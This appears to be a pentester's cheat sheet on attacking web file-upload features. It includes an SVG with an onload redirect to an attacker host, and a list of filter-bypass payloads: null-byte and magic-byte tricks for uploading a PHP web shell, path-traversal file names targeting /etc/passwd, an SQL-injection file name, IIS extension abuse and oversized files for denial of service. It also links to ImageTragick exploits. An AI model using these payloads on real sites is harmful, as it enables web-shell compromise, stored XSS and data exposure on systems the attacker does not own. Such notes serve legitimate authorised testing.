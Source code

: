        # Open redirect svg
        <code>
        <?xml version="1.0" encoding="UTF-8" standalone="yes"?>
        <svg
        onload="window.location='https://attacker.com'"
        xmlns="http://www.w3.org/2000/svg">
        <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
        </svg>
        </code>
            
        # Filter Bypassing Techniques
        # upload asp file using .cer & .asa extension (IIS — Windows)
        # Upload .eml file when content-type = text/HTML
        # Inject null byte shell.php%001.jpg
        # Check for .svg file upload you can achieve stored XSS using XML payload
        # put file name ../../logo.png or ../../etc/passwd/logo.png to get directory traversal via upload file
        # Upload large size file for DoS attack test using the image.
        # (magic number) upload shell.php change content-type to image/gif and start content with GIF89a; will do the job!
        # If web app allows for zip upload then rename the file to pwd.jpg bcoz developer handle it via command
        # upload the file using SQL command 'sleep(10).jpg you may achieve SQL if image directly saves to DB.
        
        # Advance Bypassing techniques
        # Imagetragick aka ImageMagick:
        https://mukarramkhalid.com/imagemagick-imagetragick-exploit/
        https://github.com/neex/gifoeb
            